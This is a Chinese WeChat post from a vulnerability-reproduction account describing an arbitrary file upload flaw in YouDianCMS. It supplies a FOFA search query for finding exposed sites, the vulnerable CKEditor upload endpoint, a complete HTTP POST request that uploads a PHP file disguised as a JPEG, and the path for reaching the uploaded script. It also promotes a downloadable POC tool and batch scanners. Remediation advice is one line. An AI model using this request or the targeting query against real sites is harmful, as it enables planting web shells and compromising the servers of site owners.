 #  YouDianCMS友点系统存在任意文件上传漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-21 21:44  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. YouDianCMS友点系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
《友点企业网站管理系统》(YouDianCMS系统)集电脑网站、手机网站、微信、APP、小程序于一体,共用空间,数据自动同步,是五合一企业建站专业解决方案。  
## 2.漏洞描述  
  
《友点企业网站管理系统》(YouDianCMS系统)集电脑网站、手机网站、微信、APP、小程序于一体,共用空间,数据自动同步,是五合一企业建站专业解决方案。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
友点企业网站管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5uHewZoKyAxaAS0LT1yFLUJibbQIOFSWHdTQ5zNGjXGtRDrdUjGsWrlA/640?wx_fmt=jpeg&from=appmsg "null")  
  
YouDianCMS友点系统存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="友点建站-CMS"  
## 5.漏洞复现  
  
漏洞链接：https://1270.0.1/Public/ckeditor/plugins/multiimage/dialogs/image_upload.php  
  
漏洞数据包：  
```
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 185
Content-Type: multipart/form-data; boundary=cadc403efc1ad12f5fcce44c172baad2

--cadc403efc1ad12f5fcce44c172baad2
Content-Disposition: form-data; name="files"; filename="c.php"
Content-Type: image/jpg

<?php phpinfo();?>
--cadc403efc1ad12f5fcce44c172baad2--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5uXMsJedLnn9wGDUQjnL0rqcuHE1EczfVIPkSrOCUEmKp6I0FbxrWug/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传成功后，会返回路径  
  
拼接上传的文件地址： https://127.0.0.1/Public/image/uploads/1708518585657.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5HGIGwEZFibkVtatoaBZ1VLzZFl3ZqStRat2q9ksY1WhOtN54pEnyLDA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现102 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd54KC4YwFicqgbXCtZWSNSYHYl67GsJLdgsU4I3qqOP53PIwNNBbXbt1w/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5vackia1GVFj8Z54tHwTzye5zYVfaAPBia7ibcsR37bVDzxxpibicN1Ysuww/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5XRJdfkE3PCQiaVbhIX76wgDbW6XKmjaAE1JyFD8aaIghMUgOy5FuNSQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5VKeqCfibaYKnjPtE3ECkJlc0pZqqQGKWjhKRBen9V55MS64IfsIoeibQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5lVe6nHmqXLW9Txrp50qUZIKwartsb0MFcykqzwUeGNzXYnYH96EGqA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZibFj9I4hSBLUFRNDibdexd5bEouoorjiaJ6AM31dLcyTaAPBuTl8X24nCAaHXWZ60ugfiaFvJkPq2nQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注官方更新补丁 https://www.youdiancms.com/  
## 8.往期回顾  
  
[泛微e-office系统存在敏感信息泄露 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485270&idx=1&sn=f4cf6552f69f84f34bf5b0a4ca9105bd&chksm=974b8a51a03c034716f9c5810f22c92ce967fffa736c5d879e247e2064f6e9d102cee0b332c2&scene=21#wechat_redirect)  
  
  
[亿赛通-数据泄露防护(DLP)44个接口存在远程命令执行漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485256&idx=1&sn=70c20d907235e4fbf0b0e8ba53afe8e6&chksm=974b8a4fa03c03593bae16f80b3c580dd2e6512c5c54c26220990616e75ff69af0ae76ec677e&scene=21#wechat_redirect)  
  
  
  
  
